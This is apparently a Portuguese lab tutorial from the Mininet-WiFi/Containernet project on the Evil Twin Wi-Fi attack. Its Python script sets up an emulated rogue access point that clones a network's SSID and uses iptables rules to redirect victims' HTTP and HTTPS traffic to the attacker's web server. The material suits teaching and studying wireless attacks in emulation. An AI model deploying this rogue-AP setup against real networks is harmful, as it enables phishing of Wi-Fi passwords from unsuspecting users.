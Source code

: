 ************
Hackeando a senha de Wi-Fi WPA2 usando Evil Twin Attack | DNSMASQ e Hostapd
************


.. Note::
  **Neste documento você irá compreender como:** 
  - Acontece o ataque denominado de  Evil Twin Attack
  
  **Requisitos:** 
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi possui todos os recursos necessários para reproduzir este documento.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from containernet.net import Containernet
from containernet.node import DockerSta
from mininet.log import setLogLevel, info
from containernet.cli import CLI
from containernet.term import makeTerm


def topology():
    "Create a network."
    net = Containernet()

    info("*** Creating nodes\n")
    sta1 = net.addStation('sta1', ip='0/0')
    sta2 = net.addStation('sta2')
    ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                             failMode="standalone", datapath='user')
    ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Associating Stations\n")
    net.addLink(sta2, ap1)

    info("*** Starting network\n")
    net.build()
    ap1.start([])

    ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
    #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
    ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

    #ap2.cmd('iptables --flush')
    ap2.cmd('iptables --table nat --append POSTROUTING --out-interface ap2-eth1 -j MASQUERADE')
    ap2.cmd('iptables --append FORWARD --in-interface ap2-wlan0 -j ACCEPT')
    ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.190.1:80')
    ap2.cmd('iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.190.1:80')
    ap2.cmd('iptables -t nat -A POSTROUTING -j MASQUERADE')
    ap2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

    sta1.cmd('ifconfig sta1-wlan0 192.168.190.2/24')
    sta1.cmd('route add default gw 192.168.190.1')

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('debug')
    topology()
```


